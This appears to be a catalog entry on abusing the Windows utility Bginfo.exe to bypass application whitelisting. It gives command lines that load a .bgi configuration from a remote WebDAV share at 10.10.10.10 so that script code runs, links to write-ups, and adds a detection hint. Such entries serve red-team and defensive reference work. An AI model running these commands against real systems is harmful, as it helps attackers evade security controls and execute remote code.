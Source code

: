 ## Bginfo.exe

* Functions: Execute

```
bginfo.exe bginfo.bgi /popup /nolicprompt    

"\\10.10.10.10\webdav\bginfo.exe" bginfo.bgi /popup /nolicprompt    

"\\live.sysinternals.com\Tools\bginfo.exe" \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt   
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* https://github.com/api0cradle/BGInfo/blob/master/BGITool_1.0.ps1

Resources: 
* https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/   
* https://oddvar.moe/2017/05/22/clarification-bginfo-4-22-applocker-still-vulnerable/  
* https://twitter.com/Oddvarmoe/status/865330067630694400   
* https://twitter.com/ItsReallyNick/status/996133093613424641   
* https://github.com/3gstudent/bgi-creater   
* https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/  

Full path:
```
No fixed path
```

Notes:
Used to set background image in Windows with details about the environment


Detection:
Bginfo.exe requesting files externally or running VBS scripts.
